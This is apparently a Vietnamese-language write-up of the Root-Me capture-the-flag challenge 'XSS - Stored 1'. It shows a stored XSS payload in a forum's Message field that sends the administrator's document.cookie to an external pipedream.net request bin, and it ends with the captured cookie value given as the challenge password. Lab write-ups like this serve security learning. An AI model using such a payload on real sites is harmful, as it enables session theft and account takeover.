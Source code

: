 # WRITE UP

## **Challenge: [XSS -- Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)**

Challenge yêu cầu ta thực hiện đánh cắp cookie phiên quản trị viên và cung cấp cho ta một website để đăng post:

![Graphical user interface, text, application, email Description automatically generated](./media/image1.png){width="4.271972878390201in" height="3.1117574365704286in"}

Kiểm tra source thì thấy đây là một form với phương thức "POST". Như tên đề bài, ta sẽ thực hiện XSS Stored vào input. Nhưng trước hết ta kiểm tra xem nó bị XSS ở đâu, ta được kết quả là nó bị tại ô input 'Message':

![Graphical user interface, text, application, email Description automatically generated](./media/image2.png){width="4.170361986001749in" height="2.3788156167979in"}

![Text Description automatically generated](./media/image3.png){width="6.5in" height="1.0951388888888889in"}

Đầu tiên, ta thực hiện tạo một nơi để có thể thu thập các HTTP Request với <https://requestbin.in>:

![Graphical user interface, application Description automatically generated](./media/image4.png){width="6.5in" height="2.2159722222222222in"}

Như vậy, ta có một requestbin tại <https://eojx5xx99skfihj.m.pipedream.net>:

Tiếp theo, ta có thể đoán được chắc chắn Forum v0.001 website này bị XSS, do vậy, ta thực hiện viết payload để attack vào input của form này:

Payload: \<script\>document.write(\"\<img src=\'https://eojx5xx99skfihj.m.pipedream.net/\"+document.cookie+\"\'\>\</img\>\");\</script\>

![](./media/image5.png){width="5.567148950131234in" height="2.6252274715660544in"}

![Graphical user interface, text, application Description automatically generated](./media/image6.png){width="6.033856080489938in" height="1.2501082677165354in"}

Kiểm tra request bin, ta nhận được giá trị ADMIN_COOKIE.

![A picture containing graphical user interface Description automatically generated](./media/image7.png){width="6.5in" height="1.2125in"}

**Password:** NkI9qe4cdLIO2P7MIsWS8ofD6
